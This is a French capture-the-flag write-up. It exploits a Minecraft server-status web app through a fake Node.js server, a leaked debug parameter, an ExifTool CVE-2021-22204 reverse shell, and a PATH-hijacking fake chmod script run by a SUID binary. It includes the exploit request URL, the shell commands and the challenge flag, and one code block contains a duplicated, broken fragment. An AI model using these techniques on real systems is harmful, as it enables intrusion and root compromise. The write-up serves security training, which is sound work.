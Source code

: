 ![Desc](images/desc.png)

# Writeup

On part d’une page web qui, via un formulaire, ping un serveur MC pour afficher joueurs, version, description & favicon. En testant mc.hypixel.net:25565, on reçoit une erreur exigeant un MOTD contenant “Cinema” et “Cannes” :

![Error](images/error.png)


En déployant un serveur Node.js avec le bon MOTD on a une nouvelle erreur : "Un peu de serieux, le serveur ne peut pas avoir moins de 1 000 000 de joueurs !", on ajuste donc le nombre de joueurs : 

```python
const mc = require('minecraft-protocol');
const fs = require('fs');

const MOTD = 'Cinema de Cannes';

const raw = fs.readFileSync('favicon.jpg');
const faviconData = 'data:image/jpeg;base64,' + raw.toString('base64');

const server = mc.createServer({
  host: '0.0.0.0',
  port: 25565,
  version: false, // accepte toutes les versions
  'online-mode': false, // offline mode
  maxPlayers: 1000000,
  favicon: faviconData,
  beforePing: (response, client) => {
    // personnalise la réponse
    console.log(`[>] beforePing response for ${client.socket.remoteAddress}:${client.socket.remotePort}:`);
    console.dir(response, { depth: null });
    response.version.name = '1.21';
    response.version.protocol = response.version.protocol;
    response.players.max = 1000000;
    response.players.online = 1000000;
    // description en objet JSON
    response.description = { text: MOTD };
    return response; // renvoie l’objet modifié
  }
});

server.on('listening', () => console.log('Fake server ON'));

server.on('connection', client => {
  const addr = `${client.socket.remoteAddress}:${client.socket.remotePort}`;
  console.log(`[+] New connection from ${addr}`);
  client.on('handshake', packet => {
    console.log(`[?] Handshake from ${addr}:`);
    console.dir(packet, { depth: null });
  });
  client.on('ping', packet => console.log(`[?] Ping from ${addr}:`, packet));
  client.on('error', err => console.error(`[!] Error from ${addr}:`, err));
  client.on('packet', (packetName, packet) => {
    console.log(`[→] Packet '${packetName}' from ${addr}:`);
    console.dir(packet, { depth: null });
  });('packet', (packetName, packet) => {
    console.log(`[→] Packet '${packetName}' from ${addr}:`);
    console.dir(packet, { depth: null });
  });
  client.on('raw', buffer => {
    console.log(`[→] Raw data (${buffer.length} bytes) from ${addr}:`, buffer.toString('hex'));
  });
});
```

Concernant la vulnérabilité, les commentaires dans le code source nous ont permis de la retrouver : 

```html
<!-- <input type="hidden" name="debug" value="debug_for_admin_20983rujf2j1i2" > -->
```

En ajoutant le paramètre debug à notre requête, un nouveau commentaire apparaît dans le code source : 

```html
<!-- Exiftool Version: 12.23, Taille du fichier: 455 --> Cette taille de fichier correspond au favicon du serveur d'exemple
```

Cette version d'exiftool est vulnérable à une Arbitrary Code Execution (CVE-2021-22204), un script d'exploitation(https://www.exploit-db.com/exploits/50911), nous permet de générer une image piégée pour obtenir un reverse shell : 

![Error](images/exploit.png)

Une fois le serveur MC relancé on peut de nouveau le requêter `http://57.128.112.118:11991/?server=4.210.160.24&port=25565&debug=debug_for_admin_20983rujf2j1i2` et le serveur web se connecte bien à notre listener :

![request](images/request.png)
![revshell](images/rev.png)

On peut lister les fichiers :

```zsh
$ ls -la
… fix_permissions    # binaire SUID root  
… flag.txt           # permissions 000
```

Lorsqu'on exécute le binaire fix_permissions:

```zsh
flaskuser@app:/app$ ./fix_permissions flag.txt
[*] Fixing permissions for files in /app/images
[*] Running as UID: 0
[*] Command: chmod 400 *
```

- Le binaire utilise probablement un execvp("chmod", args) ou un system("chmod 400 *") sans préciser de chemin absolu /bin/chmod.

- Il hérite donc de la variable d’environnement PATH de l’utilisateur appelant.

- Exploit : si on place devant /bin un exécutable chmod malicieux, execvp l’appellera en tant que root :

On créer un “chmod” factice dans /app/images pour récupèrer le flag :

```zsh
cat > chmod <<'EOF'
#!/bin/bash
cp /app/flag.txt /tmp/flag_copy.txt
chmod 644 /tmp/flag_copy.txt
exit 0
EOF
```

On rend ce script éxécutable :

```zsh
/bin/chmod +x chmod
```

On Préfixe `PATH` pour que notre script soit trouvé en priorité :

```zsh
export PATH=$(pwd):$PATH
```

On lance le binaire :

```zsh
../fix_permissions
```

On récupère le flag :

![Flag](images/SUIDexploit.png)

**Flag**

`SHLK{O!d_Sch0Ol_Guy_Ho1ds_Olds_V3rsions}`